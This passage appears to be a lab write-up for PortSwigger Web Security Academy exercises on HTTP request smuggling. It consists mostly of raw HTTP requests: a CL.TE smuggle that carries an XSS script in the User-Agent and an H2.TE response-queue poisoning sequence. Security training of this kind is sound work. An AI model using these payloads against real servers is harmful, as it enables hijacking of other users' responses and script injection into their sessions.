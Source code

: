 

Exploit

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

Will trigger on the next visitor 

**Response queue poisoning via H2.TE request smuggling**

Smuggled arbitrary prefix of body  of http/2 request using chunked encoding 

```
POST / HTTP/2
Host: 0a6b00a904086b2082f551eb0030008e.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 13

0

SMUGGLED
```



Will get a 404 response after to send. Confirmed that you caused the back-end to append the subsequent request to the smuggled prefix
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/9412e439-6e75-4eba-a415-7cc61928aeab)




Send the following request to poison the response queue 
```
POST / HTTP/2
Host: 0a6b00a904086b2082f551eb0030008e.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 85

0

GET /x HTTP/1.1
Host: 0a6b00a904086b2082f551eb0030008e.web-security-academy.net
```
